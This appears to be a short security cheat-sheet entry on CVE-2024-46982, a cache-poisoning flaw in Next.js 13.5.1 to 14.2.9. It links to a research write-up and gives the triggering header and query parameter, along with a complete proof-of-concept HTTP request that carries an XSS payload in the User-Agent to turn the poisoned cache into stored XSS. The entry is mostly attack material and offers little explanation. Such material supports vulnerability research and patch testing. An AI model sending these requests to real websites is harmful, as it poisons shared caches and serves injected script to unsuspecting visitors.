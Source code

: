#### Next.js between 13.5.1 and 14.2.9 => CVE-2024-46982

[https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir](https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir)


## Headers 
```
x-now-route-matches: 1
```
```
/_next/data/{buildID}/targeted-page.json

https://www.example.com/?__nextDataReq=1
```

```
GET /poc?__nextDataReq=1 HTTP/1.1
Host: localhost:3000
User-Agent: CP TO SXSS ON NEXT.JS : <img src=x onerror=alert('Palestine')>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
x-now-route-matches: 1
```

------------------------------
